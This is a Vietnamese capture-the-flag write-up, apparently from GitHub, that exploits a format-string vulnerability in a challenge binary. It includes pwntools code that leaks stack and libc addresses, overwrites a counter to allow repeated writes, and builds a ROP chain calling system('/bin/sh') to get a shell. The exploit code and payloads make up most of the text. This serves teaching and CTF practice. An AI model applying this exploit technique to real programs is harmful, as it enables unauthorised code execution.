 # format string + ROPchain

kiểm tra các chế dộ bảo vệ cơ bản của chương trình :

![image](https://user-images.githubusercontent.com/93699926/234209816-cf1db707-3299-4edb-85ec-c3d671b56063.png)

cùng mở IDA để xem luồng thực thi của chương trình :

![image](https://user-images.githubusercontent.com/93699926/234210146-491ca0be-f894-49d5-baa9-02d660fd41b5.png)
 
 Luồng thực thi của chương trình đơn giản như sau 
 
 +) đầu tiên nó gọi hàm Localtime và gieo seed trùng với thời gian chương trình chạy để lấy giờ và in ra những message . đoạn này không đáng quan tâm tại nó chỉ là tính năng của chương trình và không có lỗi 
 
 +) tiếp dó nó cho ta nhập 14 ksy tự vô format được khai báo tới tận 40bytes trước đó =>> no BOF
 
 +) và sau đó nó lại in biến format ra cho ta mà không có bất kỳ format specifier nào =>> fmt vuln
 
 
 # Ý tưởng khai thác
 ta sẽ sử dụng lỗi fmt này để tạo ROPchain tại địa chỉ trả về của hàm main . nhưng vấn đề là ta chỉ có thể sử dụng lỗi format string này 3 lần quá ít và không thể làm gì được .
 vậy nếu ta thay đổi gia trị của của biến i thành một giá tị âm vô cùng nào đó thì ta sẽ có thể sử dụng fmt một cách thoải mái :
 ta hãy cùng kiểm tra chương trình qua GDB, đặt lệnh b* <ngay ở địa chỉ của hàm printf khi nó in ra format của mình vừa nhập > và kiểm tra stack:
 
![image](https://user-images.githubusercontent.com/93699926/234217426-24404091-1bfa-4fce-b4b6-114e7d064184.png)

để ý địa chỉ được đặt trong ô vuông đỏ , đó chính là địa chỉ của i (ngay tại địa chỉ rsp+8) và vì biến i được khai báo là int i nên nó chỉ có 4 byte,vậy nếu ta muốn thay đổi giá trị của i thành số âm thì ta chỉ cần thay đổi byte lớn nhất cảu i thành 0xff là được
 VD: i = 0x00000001 =>> 0xff000001= -16777215
 
 vậy làm vậy bằng cách nào : để ý tại địa chỉ 0x007ffc5902ab08 và 0x007ffc5902ab20 ta có một giá trị stack đang trỏ tơi một giá trị stack khác
 Vậy ta sẽ sử dụng địa chỉ 0x007ffc5902ab20 với %28 để có thể ghi đè giá trị mà nó tỏ tới thành giá trị của rsp+8 và ta sẽ sử dụng chính địa chỉ 0x007ffc5902ab20 với %55 lúc đó dang chứa địa chỉ rsp+8 và thay đổi giá trị của i thành giá trị mà ta mong muốn
 (chú ý: 0x007ffc5902ab20 là giá trị trên stack tại %28 đang trỏ tới một giá tị stack khác và còn 0x007ffc5902ab20 tương ứng với %55 lúc sau là địa chỉ thât trên stack đang chứa địa chỉ của rsp+8 đẫ được ta chỉnh sửa )
 các bạn cũng có thể sử dụng 0x007ffc5902ab08 vơi %25 tương ứng nhưng khi tạo ROPchain hãy dùng %28 đề còn có chỗ mà tạo ROPchain 
 
 ```python
 '''
leak stack-> tinh duoc stack base (tại lần chạy đó)-> tinh duoc dia chi cua i (stack base=leak -0x1e748)
viet i len stack vaf thay doi no (i=stackbase +0x1e5c8)
'''
###### stage 1: leak stack###############
payload=b'%25$p'
p.sendlineafter(b'Professional): ',payload)
p.recvuntil(b" You: ")
leak=int(p.recv(14),16)
stack=leak-0x1e748
i_address=stack+0x1e5c8
saved_rip=i_address+0x70
log.info('[+]leak:'+hex(leak))
log.info('[+]stack:'+hex(stack))
log.info('[+]i addess:'+hex(i_address))
log.info('[+]saved rip:'+hex(saved_rip))

###### stage2 : over write i address#####
payload=f'%{(i_address&0xffff)+2}c%25$hn'.encode()
p.sendafter(b'Professional): ',payload)
payload=f'%{0xffff}c%55$hn'.encode()
p.sendlineafter(b'Professional): ',payload)
 ```
 
 vì stack sẽ thay đổi sau mỗi lần chạy các giá trị địa chỉ stack cũng vậy , nhưng vì offset không thay đổi nên sau khi ta leak được một giá trị stack thì ta có thể tính được các địa chỉ khác mà ta cần(trừ địa chỉ stack base vì lý do gì đó nhưng cứ tính stack base ở lần chạy trên máy rồi dúng stack base đó tính các giá trị khác thì vẫn đúng)
 
 kiểm tra stack ta thấy như sau :
 
 ![image](https://user-images.githubusercontent.com/93699926/234217987-4a3e8834-baa9-4d42-82bc-923b96e37589.png)
 
  ta đã thành công thay đổi giá trị của i thành 0xffff0003=-65533 với giá trị này thì có mà tạo được 10 cái ROPchain .ok moving on
  
  để tạo ROPchain thì ta sẽ cần kiếm các gadget phù hợp để ta sẽ lấy nó ra từ chính file libc (lưu ý là bài này sử dụng file libc.so.6) có sẵn trên máy , mình chạy thử lần đầu trên sever may mắn được luôn nên không phải đi kiếm libc nữa 
  
  Để mà sử dụng các gadget của file libc thì ta cần leak được địac hcỉ libc và sau đó tính base của nó , dùng ropper --f libc.6.so để kiếm offset của các gadget cần tìm (rồi cộng với libc base thì sẽ có thể sử dụng gadget đó ).ok script như sau :
  ```python
  ########stage3 leak libc###
payload=b'%21$p'
p.sendlineafter(b'Professional): ',payload)
p.recvuntil(b" You: ",drop=True)
p.recvuntil(b" You: ")
leak2=int(p.recv(14),16)
libc.address=leak2-0x29d90
log.info('[+]leak2:'+hex(leak2))
log.info('[+]libc base:'+hex(libc.address))
log.info('[+]/bin/sh:'+hex(next(libc.search(b'/bin/sh'))))
log.info('[+]system:'+hex(libc.sym['system']))
pop_rdi=libc.address+0x000000000002a3e5
pop_rsi=libc.address+0x000000000002be51
bin_sh=next(libc.search(b'/bin/sh'))
ret=libc.address+0x0000000000029cd6
  ```
 tiếp theo là ghi các gadget lần lượt bắt đầu từ saved rip của của main đến các địa chỉ trên stack kế sau nó và set lại giá trị i thành 2 để chương trình return và ta sẽ có shell 
 
 Mình có viết mọt function để thuận tiệp cho việc tạo ROPchain như sau :
 ```python
 log.info('[+]ROPPING')
def ROP(address,gadget):
    payload=f'%{(address&0xffff)}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{gadget&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)

    byte=int('0x'+str(hex(gadget))[6:10],16)
    payload=f'%{(address&0xffff)+2}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{(byte)&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)

    byte=int(str(hex(gadget))[0:6],16)
    payload=f'%{(address&0xffff)+4}c%28$hn'.encode()
    p.sendafter(b'Professional): ',payload)
    payload=f'%{(byte)&0xffff}c%55$hn'.encode()
    p.sendlineafter(b'Professional): ',payload)
 ``` 

hmm nó cũng giống như lúc ghi giá trị của i thành 0xff000003 thôi nhé 
đã có func để tạo ROP rồi thì tạo rop thui 
```python
ROP(saved_rip,pop_rsi)
ROP(saved_rip+16,pop_rdi)
ROP(saved_rip+24,bin_sh)
ROP(saved_rip+32,ret)
ROP(saved_rip+40,libc.sym['system'])


#######return##############
payload=f'%{(i_address&0xffff)+2}c%28$hn'.encode()
p.sendafter(b'Professional): ',payload)
payload=f'%{0x2}c%55$n'.encode()
p.sendlineafter(b'Professional): ',payload)
## get shell
p.interactive() 
```
full script in p.py
chạy chương trình trên sever ta có shell và flag :

![image](https://user-images.githubusercontent.com/93699926/234221422-896355a8-d0e2-42e4-a524-8577e54095c3.png)



